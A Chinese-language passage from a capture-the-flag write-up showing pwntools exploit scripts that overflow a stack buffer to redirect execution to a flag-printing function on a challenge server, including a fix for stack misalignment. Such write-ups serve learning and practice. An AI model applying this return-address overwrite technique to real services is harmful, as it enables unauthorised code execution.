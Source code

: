 原始的 exploit:
```python=
from pwn import *
binary = "./pwn"

context.terminal = ["cmd.exe", "/c", "start", "bash.exe", "-c"]
context.log_level = "debug"
context.binary = binary

conn = remote("chall.rumble.host", 5415)
#conn = process(binary)
#conn = gdb.debug(binary, "b *0x401331")

print_flag = 0x401343

conn.sendlineafter(b"mix: ", b"-1")
conn.recvuntil(b"you:", drop=True)
conn.sendline(b"A"*(112+8)+p64(print_flag))
conn.interactive()
```

但 exploit 失敗，檢查後發現有 SIGSEGV 錯誤

![](https://i.imgur.com/mcLkpao.png)

以下為別人解法:

1. 位置改 0x401348，跳過 push RBP 部分

exploit:
```python=
from pwn import *
binary = "./pwn"

context.terminal = ["cmd.exe", "/c", "start", "bash.exe", "-c"]
context.log_level = "debug"
context.binary = binary

conn = remote("chall.rumble.host", 5415)
#conn = process(binary)
#conn = gdb.debug(binary, "b *0x401331")

print_flag = 0x401348

conn.sendlineafter(b"mix: ", b"-1")
conn.recvuntil(b"you:", drop=True)
conn.sendline(b"A"*(112+8)+p64(print_flag))
conn.interactive()
```

![](https://i.imgur.com/0fRBWxt.png)

2. 多一個 ret
